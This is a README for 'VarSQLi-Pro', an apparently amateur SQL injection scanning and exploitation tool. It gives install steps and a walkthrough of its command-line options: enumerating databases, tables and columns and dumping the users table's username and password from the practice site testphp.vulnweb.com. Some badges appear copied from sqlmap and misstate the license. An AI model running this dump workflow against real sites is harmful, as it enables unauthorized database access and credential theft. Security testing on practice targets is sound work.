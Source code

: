 - [![.github/workflows/tests.yml](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml/badge.svg)](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml)
- [![Python|3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/)
- [![License](https://img.shields.io/badge/license-GPLv1-red.svg)](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE)
- [![Twitter](https://img.shields.io/badge/twitter-@Anonym0us_VNPC-blue.svg)](https://twitter.com/Anonym0us_VNPC)


# Variable SQL Injection Pro
VarSQLi-Pro or Variable SQL Injection Pro - is an upgraded version of VarSQL, a tool designed to detect and exploit SQL Injection vulnerabilities in web applications. SQL Injection is a common security vulnerability in web applications that allows attackers to perform malicious actions and gain unauthorized access to databases.

> VarSQLi-Pro is designed to assist security professionals and those interested in web application security testing in identifying and exploiting SQL Injection vulnerabilities. The tool automatically scans and searches for weaknesses in web applications, and provides users with options to execute SQL Injection attacks and test the security of the system.
### Screenshot
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-15-49-15-17.jpg">

However, it is important to use this tool responsibly and within legal boundaries. Unauthorized access to databases or conducting attacks without proper authorization is illegal and unethical. The use of this tool should only be for educational, research, and improving the security of web applications.

> When using VarSQLi-Pro or any other security testing tool, always adhere to rules and regulations. Protecting personal information and ensuring security is our responsibility and should be ensured in all online activities.

>> Always strive to learn and understand security concepts to effectively protect web applications and databases.

## Setup And install 
- Step 1: Open a terminal or command prompt on your computer.

- Step 2: Navigate to the folder where you want to store the VarSQLi-Pro source code.

- Step 3: Run the following command to clone the source code from the Git repository:
`git clone https://github.com/Phamchie/varsqli-pro`

- Step 4: After the copying is complete, move to the newly created VarSQLi-Pro folder:
`cd VarSQLi-Pro`

- Step 5: Install the dependent libraries by running the following command:
`pip install -r requirements.txt`

- Step 6: After successful installation, you can run VarSQLi-Pro with the command:
`python3 varsqli.py`
```
git clone https://github.com/Phamchie/varsqli-pro
cd varsqli-pro
pyton3 setup.py
python3 varsqli.py --help
```
- Note: Make sure that you have the right to access and use this tool for its lawful purposes. Using this tool unethically or in violation of the law can have serious consequences. Please always follow the cybersecurity rules and regulations and use this tool responsibly
### How To Used ?
- To use this tool first, I will introduce the tool modes
```
options:
  -h, --help         show this help message and exit
  -u URL, --url URL  URL Target ( e.g : https://test.com?path_vuln.php?id=1)
  --dbs              Enumerate DBMS databases
  --tables           Enumerate DBMS database tables
  --columns          Enumerate DBMS database table columns
  -D DB              DBMS database to enumerate
  --dump-all         Dump All DBMS database table columns
  -T TB              Enumerate database to enumerate tables ( ex : --dump-all -T < tables name > -C < columns name >)
  -C CO              Enumerate database to enumerate columns ( ex : --dump-all -T < tables name > -C < columns name >)
```
 - after thoroughly learning about the modes, to exploit SQL Injection on a certain SQL database error website, you use this command to extract the database name

```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-10-49-93.jpg">
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-14-14-40.jpg">

- After we have extracted and obtained the name of the database, you use options `--tables -D <database name>` , this is the command, extract all databases  In the tables section, the command:

```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --tables -D acuart
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-16-29-35-14.jpg">

- well , you can see , too got the database name in Tables , okay , next , you guys and I get the database name in columns , we use options as `-  -columns -D <database name>` , and here is the command below
```
$ python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 --columns -D acuart
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-17-00-16-21.jpg">

- after i see it says find the number of columns entries of the whole database , so tables Users have some columns like : `id` , `cart` , `pass` , `uname` , now I will dump it , to dump the database  , we use options `-D <database name> --dump-all -T <tables item name> -C <column item name>`, command:
```
python3 varsqli.py -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --dump-all -T users -C pass,uname
```
- this command I will dump the `password` and `uname` to get the username and password
- here is the result, password and user are test and test
<img src="https://raw.githubusercontent.com/Phamchie/varsqli-pro/main/Img/Screenshot_2023-08-04-17-07-59-22.jpg">

### ending
- Remember, using VarSQLi-Pro or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
